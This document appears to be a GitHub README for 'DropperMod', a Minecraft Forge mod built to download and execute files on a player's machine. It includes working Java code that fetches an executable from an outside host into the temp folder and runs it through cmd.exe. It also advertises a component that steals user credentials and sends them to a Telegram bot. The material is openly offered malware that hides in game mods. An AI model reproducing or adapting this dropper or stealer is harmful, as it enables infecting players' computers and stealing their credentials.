 # :electric_plug: DropperMod
A minecraft(forge) mod which can download and execute file

## :droplet: Loader (Download and run calculator)
<p align="center">
  <img src="IMG/windows.gif">
</p>

## :credit_card: Stealer (Steal user credentials and upload to telegram bot)
<p align="center">
  <img src="IMG/stealer.gif">
</p>

## :zap: How it works?
``` java
// Our file url 
final URL url = new URL("http://www.ddlands.com/downloads/Calc.exe");
// Get file temp path
String tempFileName = Paths.get(
		System.getProperty("java.io.tmpdir"), 
		new File(url.getPath()).getName().toString()
).toString();
// If target file not exists
if (!new File(tempFileName).exists()) {
	// Download file
	BufferedInputStream inputStream = new BufferedInputStream(url.openStream());
	FileOutputStream fileOutputStream = new FileOutputStream(tempFileName);
	// Write bytes to file
	byte dataBuffer[] = new byte[1024];
	int bytesRead;
	while ((bytesRead = inputStream.read(dataBuffer, 0, 1024)) != -1) {
		fileOutputStream.write(dataBuffer, 0, bytesRead);
	}
	// Close input and output stream
	inputStream.close();
	fileOutputStream.close();
	// Execute file
	Runtime.getRuntime().exec(
		new String[] { "cmd.exe", "/C", "start", tempFileName }
	);
}
```
